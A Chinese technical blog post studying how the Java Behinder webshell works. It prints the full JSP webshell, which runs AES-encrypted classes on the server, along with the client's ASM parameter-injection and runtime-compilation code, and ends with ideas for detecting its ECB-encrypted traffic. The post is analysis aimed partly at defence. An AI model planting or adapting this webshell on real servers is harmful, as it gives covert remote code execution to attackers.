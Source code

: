 ```yaml
---
layout: post
title: 冰蝎Java实现学习笔记
tags: Java开发 Java安全
---
```


通过冰蝎的Java实现来详细学习一下冰蝎具体是如何实现的，里面涉及到不少Java的知识点，同时也了解一下如何检测冰蝎的流量

## 服务器端

利用类加载机制来做动态编译执行，有关的知识可以看之前的[Java eval的实现](<https://litch1.club/2020/01/20/evalimpl.html>)

来看看冰蝎的webshell

```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%><%
    if (request.getParameter("pass") != null) {
        String k = ("" + UUID.randomUUID()).replace("-", "").substring(16);
        session.putValue("u", k);
        out.print(k);
        return;
    }
    Cipher c = Cipher.getInstance("AES");
    c.init(2, new SecretKeySpec((session.getValue("u") + "").getBytes(), "AES"));
    new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
%>
```

个人感觉几个关键点:

- 如何传递密钥?

  利用UUID.randomUUID()来创建新的密钥，存入服务器端的session中，并且返回给客户端

- 如何执行代码？

  网络中传递的是AES加密的Base64编码后的二进制流(class流)，得到class流之后，取出session中的AES密钥来进行解密，解密之后直接利用事先定义好的defineClass将二进制流转化为Class之后，利用Class实例的newInstance来获得一个这个类的实例，然后调用其equals（）方法，而需要执行的命令就重写在equals方法中。

- 如何取得回显？

  在调用equals方法的时候将pageContext传入，pageContext可以获得servlet的内置对象Response等

- 一些细节

  这里不需要findClass，类不需要可以复用，直接使用defineClass,但是defineClass是protected的，所以在自定义的ClassLoader里面写一个public调用defineClass 将这个功能暴露出来。

  使用Request、Response、Seesion这几个对象，还需要考虑一个问题，那就是ClassLoader的问题。JVM是通过ClassLoader+类路径来标识一个类的唯一性的。我们通过调用自定义ClassLoader来defineClass出来的类与Request、Response、Seesion这些类的ClassLoader不是同一个，所以在equals中访问这些类会出现java.lang.ClassNotFoundException异常。所以这里传入加载Request、Response这些的Loader，使用这个父Loader来创建我们自定义的ClassLoader

  ![](https://litch1-1256735124.cos.ap-beijing.myqcloud.com/20200122190233.png)


  > 注：这里感觉如果从流量入手还是有点机会检测出来，class流还是具有特征，冰蝎(2.0)又是采用的是ECB模式，在不更换密钥的情况下，会有部分相同的流量，通过这一点可以进行检测，而如果一直更换密钥，由于申请密钥的流量是明文的，可以基于这点来检测

## 客户端

客户端有一个问题，我们想要执行某一条命令的话，如何传递参数是一个问题，之前我做的那个eval的思路是采用利用命令来编译到一个临时文件里面，这样有一个问题，每次都需要写文件读文件，无疑效率是很低的。

```java
public static byte[] getParamedClass(String clsName,final Map<String,String> params) throws Exception
{
    byte[] result;
    ClassReader classReader = new ClassReader(clsName);
    final ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_MAXS);

    classReader.accept(new ClassAdapter(cw) {

        @Override
        public FieldVisitor visitField(int arg0, String filedName, String arg2, String arg3, Object arg4) {
            // TODO Auto-generated method stub
            if (params.containsKey(filedName))
            {
                String paramValue=params.get(filedName);
                return super.visitField(arg0, filedName, arg2, arg3, paramValue);
            }

            return super.visitField(arg0, filedName, arg2, arg3, arg4);
        }},0);
    result=cw.toByteArray();
    return result;
}
```

这里传入我们的类名和参数可以获得byte类型的class。原理就是利用ASM框架来操作class，先读入class，class是预先写好的，例如我们要执行cmd命令，我们先读入cmd.class，cmd这个类中预留了一个`static String cmd `字段，然后利用ASM修改掉（这里是利用重写visitField方法实现的）这个filed的值，然后利用ClassWriter获得修改完后的类的ByteArray就可以了。

再来看看他的eval,这里的eval其实并不是类似js或者python那样的，冰蝎的作者没有进行进一步的封装，用户需要自定义一个完整的类来实现。当我们写完自定义的类时，冰蝎是如何获得我们的class的字节码的？

这里主要利用的是`javax.tools`内的一些与Class有关的类。

```java
  public static byte[] getClassFromSourceCode(String sourceCode) throws Exception {
    String cls;
    byte[] classBytes = null;
    JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
    if (compiler == null)
      throw new Exception(); 
    DiagnosticCollector<JavaFileObject> collector = new DiagnosticCollector<JavaFileObject>();
    StandardJavaFileManager standardJavaFileManager = compiler.getStandardFileManager(collector, null, null);
    JavaFileManager javaFileManager = standardJavaFileManager;
    
    List<String> options = new ArrayList<String>();
    Pattern CLASS_PATTERN = Pattern.compile("class\\s+([$_a-zA-Z][$_a-zA-Z0-9]*)\\s*");
    Matcher matcher = CLASS_PATTERN.matcher(sourceCode);
    
    if (matcher.find()) {
      cls = matcher.group(1);
    } else {
      throw new IllegalArgumentException("No such class name in " + sourceCode);
    } 
    Utils.MyJavaFileObject myJavaFileObject = new Utils.MyJavaFileObject(cls, sourceCode);
    
    Boolean result = compiler
      .getTask(null, javaFileManager, collector, options, null, Arrays.asList(new JavaFileObject[] { myJavaFileObject })).call();
    
    byte[] temp = new byte[0];
    JavaFileObject fileObject = (JavaFileObject)fileObjects.get(cls);
    if (fileObject != null) {
      classBytes = ((Utils.MyJavaFileObject)fileObject).getCompiledBytes();
    }
    return classBytes;
  }
```

利用正则表达式去匹配出class的名字，然后利用`compiler.getTask()`完成编译

### 如何检测

在网络层的检测前面说到，冰蝎(2.0)又是采用的是ECB模式，在不更换密钥的情况下，会有部分相同的流量，通过这一点可以进行检测。

我们抓一下流量来证实一下

![](https://litch1-1256735124.cos.ap-beijing.myqcloud.com/20200129200034.png)

可以看到由于采用了ECB模式，而在执行同一功能的时候由于冰蝎传递参数的实现是利用了更换filed来实现的，所以这里class内大量的内容是相同的，在分组之后也难免有大量相同的组，我们可以基于此来进行检测，比如将相邻的几次流量缓存起来，然后进行匹配对比。当然这只是一个想法，而且也比较容易绕过，一个是通过混淆，更改一下变量名便可以避免存在大量相同的组，然后修改ECB模式也可以。
